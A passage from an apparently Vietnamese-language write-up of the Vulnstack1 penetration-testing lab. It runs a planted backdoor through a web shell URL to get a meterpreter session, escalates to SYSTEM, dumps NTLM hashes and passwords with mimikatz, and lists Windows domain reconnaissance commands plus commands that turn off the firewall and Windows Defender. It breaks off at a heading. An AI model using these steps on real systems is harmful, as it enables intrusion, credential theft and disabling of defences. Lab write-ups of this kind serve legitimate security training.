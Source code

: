 ![image](https://raw.githubusercontent.com/tranquac/Blog_Image/master/vulnstack1/33.jpg)

Thực thi bằng backdoor ban đầu:\
```http://192.168.18.128/yxcms/index.php?cmd=C:\phpStudy\WWW\yxcms\rs_backdoor.exe```
Và kết quả chúng ta có  được meterpreter shell xịn

![image](https://raw.githubusercontent.com/tranquac/Blog_Image/master/vulnstack1/34.jpg)

Dễ dàng đạt được đặc quyền cao nhất của windows: ```NT AUTHORITY\SYSTEM``` bằng metasploit với getsystem command\
Nếu các bạn muốn thực hành tay lỗi này để leo lang đặc quyền trong windows thì xem ở đây:
 
https://medium.com/r3d-buck3t/impersonating-privileges-with-juicy-potato-e5896b20d505

![image](https://raw.githubusercontent.com/tranquac/Blog_Image/master/vulnstack1/35.jpg)

NTLM hash

![image](https://raw.githubusercontent.com/tranquac/Blog_Image/master/vulnstack1/36.jpg)

Using mimikatz dump password user

![image](https://raw.githubusercontent.com/tranquac/Blog_Image/master/vulnstack1/37.jpg)

![image](https://raw.githubusercontent.com/tranquac/Blog_Image/master/vulnstack1/38.jpg)

### Recon Internal Network

Một số lệnh thực hiện trên máy Windows 7 để lấy truy vấn thông tin và truy vấn thông tin domain:\
**Query command**
```
ipconfig /all
net config Workstation
systeminfo
nslookup god.org  : resolve domain name IP address
net config workstation : Query the current login domain and login user information
```
**Query information command**
```
wmic service list brief  : Query local service information
tasklist  : Query process
wmic process list brief  : Use wmic to query the process
wmic startup get command,caption  : View the startup process
schtasks/query/fo list/v  : View scheduled tasks
net statistics workstation  : View the host boot time
netstat -ano  : Query port list
wmic qfe get caption,description,hotfixid,installedon  : Query the patch installed on this machine
```
**View account information in the machine**
```
net user : View the list of local users
net localgroup administrators : Get local administrators
query user || qwinsta : Get online users
net session : List the sessions between the clients connected to the computer
net share : View the local share list
wmic share get name,path,status : Use wmic to query the local share list
```
**Turn off the firewall, defender**
```
netsh firewall set opmode disable : before windows server 2003
netsh advfirewall set allprofiles state off : after windows server 2003
net stop windefend : stop windefend
```
**Surviving hosts in the detection domain**
```